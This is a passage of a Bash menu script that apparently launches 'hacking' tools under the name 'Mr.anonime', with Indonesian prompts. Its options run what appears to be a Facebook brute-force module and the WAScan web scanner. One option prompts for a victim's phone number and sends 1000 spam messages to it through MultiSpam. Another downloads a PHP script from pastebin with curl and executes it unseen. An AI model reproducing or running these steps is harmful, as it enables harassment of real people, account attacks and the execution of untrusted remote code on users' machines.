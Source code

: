 ./msfconsole
fi

if [ $bro = 53 ] || [ $bro = 53 ]
then
clear
cowsay -f kiss.cow "Mranonime" | lolcat
figlet "Mr.anonime" | lolcat
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1m https://youtu.be/FsI4pCapfLY"
sleep 3
cd module
python2 mbf.py
fi

if [ $bro = 54 ] || [ $bro = 54 ]
then
clear
cowsay -f kiss.cow "Mranonime" | lolcat
figlet "Mr.anonime" | lolcat
sleep 1
apt update && apt upgrade
apt install python2
apt install git
pip2 install -r requirements.txt
git clone https://github.com/m4II0k/WAScan.git
mv WAScan $HOME
cd $HOME/WAScan
pip2 install -r requirements.txt
clear
chmod +x wascan.py
python2 wascan.py 
fi

if [ $bro = 55 ] || [ $bro = 55 ]
then
clear
echo "\033[31;1m"
cowsay ghostbusters.cow "Mranonime" 
figlet "Mr.anonime" | lolcat
apt update && apt upgrade
apt install python2
apt install python
apt install git
git clone https://github.com/Kereh/MultiSpam
mv MultiSpam $HOME
cd $HOME/MultiSpam
read -p "==== nomer target awalan [62] contoh 628xxxx===>" target
python2 Multispam.py --count=1000 target
sleep 1
fi

if [ $bro = 56 ] || [ $bro = 56 ]
then
clear
cowsay -f kiss.cow "Mranonime" | lolcat
figlet "Mr.anonime" | lolcat
sleep 1
apt install php
apt install curl
curl https://pastebin.com/raw/9BYy1JVc -o jdid.php
mv jdid.php $HOME
cd $HOME
php jdid.php
fi
